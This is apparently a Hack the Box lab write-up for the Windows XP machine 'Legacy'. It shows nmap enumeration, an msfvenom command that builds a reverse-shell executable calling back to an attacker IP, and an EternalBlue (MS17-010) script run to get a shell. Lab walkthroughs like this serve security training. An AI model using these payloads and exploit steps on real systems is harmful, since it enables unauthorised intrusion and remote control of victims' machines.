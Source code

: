 ```yaml
---
title: Hack the Box - Legacy
date: 2022-08-15 14:45:00 -500 
categories: [Hack the Box]
tags: [oscp,windows]
---
```


# Legacy Overview

## Machine Details

| IP | Hostname | Operating System |
|----|----------|------------------|
| 10.10.10.4 | Legacy | Windows |

## Path to Exploitation

This box has a very straight-forward path to exploitation. We leverage the Eternal Blue vulnerability to grant us full access to the machine. 

# Enumeration

## Full Port Scan

```bash
nmap -p- -Pn 10.10.10.3 -oA nmap/full-port 
```
Results:

| PORT | STATE | SERVICE |
|------|-------|---------|
| 135 | open | msrpc |
| 139 | open | netbios-ssn |
| 445 | open | microsoft-ds |

## Service Scan

```bash
nmap -p 135,139,445 -sC -sV -oA Legacy/nmap/service-scan -Pn 10.10.10.4
```

Results:

| PORT | STATE | SERVICE | VERSION |
|------|-------|---------|---------|
| 135 | open | msrpc | Microsoft Windows RPC |
| 139 | open | netbios-ssn | Microsoft Windows netbios-ssn |
| 445 | open | microsoft-ds | Windows XP microsoft-ds |

## SMB Scan

```bash
nmap -p 135,139,445 -sC -sV -oA Legacy/nmap/service-scan -Pn 10.10.10.4
```

Results:

![SMB Scan](/assets/HackTheBox/Legacy/smb-scan.png "SMB Scan")

Host is vulnerable to MS08-67 and MS17-010

# Exploitation and Privilege Escalation

We can use the [send_and_execute.py](https://github.com/cyberhexe/eternalblue/blob/master/send_and_execute.py) script to launch our reverse shell on the host

First we need to generate our reverse shell payload

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.5 LPORT=443 -f exe-service -o evil.exe
```

Then use the script to execute it 

```bash
python /opt/MS17-010/send_and_execute.py 10.10.10.4 evil.exe
```

We see we have a shell running on the host

![Reverse Shell](/assets/HackTheBox/Legacy/rev-shell.png "Reverse Shell")
